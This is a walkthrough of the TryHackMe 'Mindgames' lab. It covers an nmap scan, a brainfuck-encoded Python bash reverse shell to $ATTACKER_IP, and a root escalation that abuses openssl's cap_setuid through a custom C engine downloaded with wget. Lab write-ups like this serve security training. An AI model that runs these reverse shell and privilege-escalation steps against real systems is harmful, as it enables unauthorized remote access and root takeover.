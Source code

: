 ```yaml
---
title : Mindgames - Writeup
---
```


_**Oct 05, 2020**_

[Mindgames](https://tryhackme.com/room/mindgames) Writeup

## Nmap Scan :
```
bvr0n@kali:~/CTF/THM/Mindgames$ nmap -sC -sV -Pn 10.10.149.6

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page : 

Looks like we have some brainfuck, after decoding the first one it gives some python3 regular :
```
print("Hello, World")
```
But when submitting the brainfuck code in the bottom form, it looks like it executs everything in python, let's turn our text into brainfuck get a revershell with this : 
```
import os

os.system('bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/8080 0>&1"')
```
And we got a reverse shell.

## Internal Enum :

Something caught my eyes when running linpeas :
```
Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep is writable
```
You can find out more about cap_setuid [HERE](https://man7.org/linux/man-pages/man3/cap_setuid.3.html) :

Now based on [GTFOBins](gtfobins.github.io/) : 
```
It loads shared libraries that may be used to run code in the binary execution context.
```


## Solution :

So in conclusion we need to create An OpenSSL Engine, [Check Here](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/) :

This is the final script :
```
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}


IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
```
bvr0n@kali:~$ gcc -fPIC -o ssl-foo.o -c ssl-foo.c 
bvr0n@kali:~$ gcc -shared -o ssl-foo.so -lcrypto ssl-foo.o
```
then we download it from the victim's machine :
```
mindgames@mindgames:/tmp$ wget $ATTACKER_IP:8000/ssl-foo.so
```
and run our little engine :
```
mindgames@mindgames:/tmp$ openssl engine -t `pwd`/ssl-foo.so
root@mindgames:/tmp# id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
```

And we are ROOT!!

<br>
best regards

[bvr0n](https://linkedin.com/in/taha-el-ghadraoui-5921771a5)


<br>
[back to main()](../../index.md)

<br>
